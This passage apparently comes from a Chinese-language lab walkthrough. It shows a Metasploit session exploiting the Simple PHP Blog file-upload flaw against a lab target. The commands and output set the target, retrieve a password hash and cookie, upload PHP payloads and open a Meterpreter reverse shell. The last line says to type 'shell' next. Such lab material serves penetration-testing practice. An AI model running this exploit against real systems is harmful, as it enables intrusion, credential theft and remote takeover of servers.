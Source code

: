         Module options (exploit/unix/webapp/sphpblog_file_upload):
        
           Name     Current Setting  Required  Description
           ----     ---------------  --------  -----------
           Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
           RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                               metasploit.html
           RPORT    80               yes       The target port (TCP)
           SSL      false            no        Negotiate SSL/TLS for outgoing connections
           URI      /sphpblog        yes       Sphpblog directory path
           VHOST                     no        HTTP server virtual host
        
        Payload options (php/meterpreter/reverse_tcp):
        
           Name   Current Setting  Required  Description
           ----   ---------------  --------  -----------
           LHOST  192.168.75.151   yes       The listen address (an interface may be specified)
           LPORT  4444             yes       The listen port
        
        Exploit target:
        
           Id  Name
           --  ----
           0   Automatic
        
        View the full module info with the info, or info -d command.
        
        msf6 exploit(unix/webapp/sphpblog_file_upload) > set rhosts 192.168.75.150 //靶机ip
        rhosts => 192.168.75.150
        msf6 exploit(unix/webapp/sphpblog_file_upload) > set rport 80  //靶机端口
        rport => 80
        msf6 exploit(unix/webapp/sphpblog_file_upload) > set uri /blog/ //攻击目录
        uri => /blog/
        msf6 exploit(unix/webapp/sphpblog_file_upload) > exploit //启动攻击
        
        [*] Started reverse TCP handler on 192.168.75.151:4444 
        [+] Successfully retrieved hash: $1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
        [+] Successfully removed /config/password.txt
        [+] Successfully created temporary account.
        [+] Successfully logged in as OTmoxq:ykM0Fg
        [+] Successfully retrieved cookie: ii9ppvao0fveedft2314so41u3
        [+] Successfully uploaded pVmL1BgOJLbmlN8mucTA.php
        [+] Successfully uploaded gy904amvE6YvJp3W7xkC.php
        [+] Successfully reset original password hash.
        [+] Successfully removed /images/pVmL1BgOJLbmlN8mucTA.php
        [*] Calling payload: /images/gy904amvE6YvJp3W7xkC.php
        [*] Sending stage (39927 bytes) to 192.168.75.150
        [*] Meterpreter session 1 opened (192.168.75.151:4444 -> 192.168.75.150:42500) at 2024-09-24 18:01:33 +0800
        [+] Successfully removed /images/gy904amvE6YvJp3W7xkC.php
        meterpreter > 
        ```
        
        攻击成功，输入`shell`以获得靶机`shell`
        